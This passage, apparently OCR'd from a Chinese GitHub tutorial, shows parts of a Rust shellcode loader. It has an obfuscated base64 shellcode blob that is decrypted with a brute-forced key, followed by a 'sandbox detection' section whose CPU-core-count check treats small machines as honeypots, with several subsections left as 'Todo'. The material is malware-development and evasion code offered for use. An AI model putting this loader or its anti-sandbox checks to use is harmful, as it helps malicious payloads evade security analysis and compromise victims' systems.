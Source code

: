 ```rust
            Ok(t) => {
                match String::from_utf8(t) {
                    Ok(t) => unsafe {
                        if t == "bingo" {
                            return key
                        }
                    },
                    Err(_e) => (),
                }
            }
            Err(_e) => {}
        };
    }
}

fn main() {
    let key = 7122+90;
    // //  解密执行 shellcode
    let base_shellcode = ">I>j.g,)dmx}lICO(S%//SZ_-+/Qb.d/CI>!/(X_aZw~b.dF/InHcjF-&a#$b^#}0^+|Umw2vI#z^E@zlc#S;S/z/B>!/&U!(b+_l+U!T.n}lm%_Ec%^<jnzFFU!bdXyajx~bE#V?ZZ_>!?zay$_bm#(&a#$b^#}0I#z^E@zlc<g?e*{&m(*HmXK_+CAeFXyajxabE#V<w:!KIXyajx#bE#V(5myaInzFIC,(SXCVSFzVICU(SF_T$c~(SV.?FXzVSF_alVrw_a.>Z@_)M<}lmx}lmx}b.0DlE<}lI:X-5d5E_a&)_UA@/Zz):z&r@2.IB>jmAnNiVc-Tg^~xEDnMl(F:zI}VB:$e,a&CzC2CKSQ,{H}";
    let check = "CO?@<zT";
    let base_key = crypt::dynamic::base64_dynamic_decode(check,key);
    let shellcode = crypt::base64::base64_decode_with_random(base_shellcode,base_key).unwrap();
}
```
# 0x04 沙箱检测
按需引用，个人一般 检测进程数量和硬盘大小 即可。
## 进程数量
Todo
## 核心数量
检测cpu 核心数量，一般小于或等于 2 核 的为 蜜罐
```rust
pub unsafe fn check_processor_count() -> bool {
    let mut system_info: SYSTEM_INFO = std::mem::zeroed();
    GetSystemInfo(&mut system_info);
    system_info.dwNumberOfProcessors > 2
}
```
## 内存大小
Todo
## 硬盘大小
Todo
## 系统分页数量
